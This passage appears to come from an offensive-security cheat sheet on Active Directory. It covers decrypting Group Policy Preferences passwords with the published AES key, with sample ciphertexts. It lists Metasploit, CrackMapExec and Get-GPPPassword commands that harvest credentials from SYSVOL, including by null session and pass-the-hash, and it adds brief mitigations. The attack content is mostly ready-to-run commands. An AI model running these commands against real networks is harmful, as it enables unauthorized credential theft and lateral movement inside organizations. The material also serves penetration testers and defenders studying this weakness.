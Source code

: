 ```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

#### Automate the SYSVOL and passwords research

* `Metasploit` modules to enumerate shares and credentials
    ```c
    scanner/smb/smb_enumshares
    post/windows/gather/enum_shares
    post/windows/gather/credentials/gpp
    ```

* CrackMapExec modules
    ```powershell
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
    ```

* [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)
  ```powershell
  # with a NULL session
  Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

  # with cleartext credentials
  Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

  # pass-the-hash
  Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  ```

#### Mitigations

* Install [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.
* Delete existing GPP xml files in SYSVOL containing passwords.
* Don’t put passwords in files that are accessible by all authenticated users.

### Exploit Group Policy Objects GPO

> Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
